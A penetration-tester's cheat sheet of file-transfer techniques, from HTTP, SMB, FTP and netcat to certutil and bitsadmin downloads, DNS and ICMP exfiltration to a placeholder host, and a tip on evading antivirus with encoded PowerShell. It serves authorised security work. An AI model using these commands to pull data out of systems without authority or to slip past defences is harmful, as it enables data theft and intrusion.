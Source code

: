 ```yaml
---
date: 
tags:
---
```


```table-of-contents
```

### 1. HTTP/HTTPS

```bash
# Python HTTP Server:
python3 -m http.server 80 # Python 3
python -m SimpleHTTPServer 80 # Python 2
```

```bash
# Download with wget/curl:
wget http://<IP>/file
curl -O http://<IP>/file
```

```bash
# PHP Server:
php -S 0.0.0.0:80
```

### 2. SMB (Windows)

```bash
# Impacket SMB Server:
impacket-smbserver share $(pwd) -smb2support -username user -password pass
```

```bash
# Connect from Windows:
net use \\\\<IP>\\share /user:user pass
copy \\\\<IP>\\share\\file .
```

### 3. FTP

```bash
# Python FTP Server:
pip3 install pyftpdlib
python3 -m pyftpdlib -p 21 -w
```

```bash
# Connect with ftp:
ftp <IP>
get file
```

### 4. SCP (SSH)

```bash
# Upload/Download:
scp file.txt user@<IP>:/path # Upload
scp user@<IP>:/path/file.txt . # Download
```

### 5. Netcat (Unencrypted)

```bash
# Receiver (Listener):
nc -lvnp 4444 > file
```

```bash
# Sender:
nc <IP> 4444 < file
```

### 6. PowerShell (Windows)

```bash
# Download File:
Invoke-WebRequest -Uri http://<IP>/file -OutFile file
(New-Object Net.WebClient).DownloadFile("http://<IP>/file", "file")
```

```bash
# Base64 Encode/Decode:
[Convert]::ToBase64String([IO.File]::ReadAllBytes("file")) > file.b64
[IO.File]::WriteAllBytes("file", [Convert]::FromBase64String((Get-Content file.b64)))
```

### 7. TFTP (UDP)

```bash
# Start TFTP Server:
atftpd --daemon --port 69 /tftp
```

```bash
# Download File:
tftp -i <IP> GET file
```

### 8. WebDav (HTTP)

```bash
# Python WebDav Server:
wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

```bash
# Mount in Windows:
net use * http://<IP>/webdav
```

### 9. DNS Exfiltration (Slow)

```bash
# Using dnscat2:
dnscat2 --dns server=<IP>,[domain=example.com](<http://domain=example.com/>)
```

### 10. Magic Windows Tricks

```bash
# Certutil:
certutil -urlcache -split -f http://<IP>/file
```

```bash
# Bitsadmin:
bitsadmin /transfer job /download /priority normal http://<IP>/file C:\\file
```

### 11. RDP Clipboard

```bash
Copy-paste files via RDP (enable clipboard sharing).
```

### 12. ICMP (Ping) Exfil

```bash
# icmp-exfil (Tool):
icmp-exfil -s <IP> -f file
```

### Notes:

- Encryption: Prefer SCP/HTTPS/SMB3 over unencrypted methods (FTP, HTTP, TFTP).
- Firewalls: Check allowed ports (80, 443, 445, 21, 22 are common).
- AV Evasion: Obfuscate scripts (e.g., base64-encoded PowerShell).

Source: [https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65](https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65)
